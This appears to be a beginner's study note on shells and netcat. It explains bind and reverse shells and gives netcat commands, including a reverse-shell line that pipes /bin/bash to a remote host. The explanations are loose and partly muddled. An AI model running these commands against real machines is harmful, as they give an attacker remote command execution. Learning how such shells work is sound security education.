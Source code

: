 ```yaml
---
tags:
  - shell
  - RevShell
  - netcat
  - nc
---
```

# Shells and Tools

***The shell is the piece of software that translates the processes into the system by just a simple command system. The shells are like: `PowerShell` and `Bash`***

## Tools can be used to make shells

The Shells is a great utility on the system, but if a hacker owned one on your system you would be in a great danger.

**Owning** a shell on a machine to remotely execute code with high privileges might be if it isn't the highest thing a hacker could make on a machine, it can be done by tools opens the connection to a command executing shell on the machine.


### `Netcat`

`Netcat` is the classic one to create shells. The shells can be created by executing a command on both sides to establish the connection.

Let's say i want to connect to a shell on a machine the IP of it is `10.0.0.1`, first i must make it opens a port to send my request and even make the machine wait my request on, which can be done by executing this command on the other side machine -which is called a listener- :
```bash
nc -lvnp 69
```

Now I must make a request from my side to connect to this machine on the waiting port:
```bash
nc 10.0.0.1 69
```
and it's done

### Other tools

There are other tools like `metasploit` and `msvenom` which you can make connection with but with different methods.

___
# Shell Types

***There are mainly two types of shells:***

## Bind Shell

**The bind shell** is to put a listener on the machine, opening a port for you to make the request from your side and connect.

Putting the listener:
```bash
nc -lvnp 69
```

Connecting the open port:
```bash
nc 10.0.0.1 69
```
and it's done

## Reverse Shell

The reverse shell is totally the opposite of the bind shell, your side would be the listener side and the other side would be one who is making the request to give you the connection!!

opening a listener on your side: 
```bash
nc -lvnp 69
```

Now make the other side give you the connection:
```bash
nc 10.0.0.1 69 -e "/bin/bash"
```

and it's done

##### There also the interactive and non-interactive shells and the difference between them is that the interactive can take user inputs the non is not

---
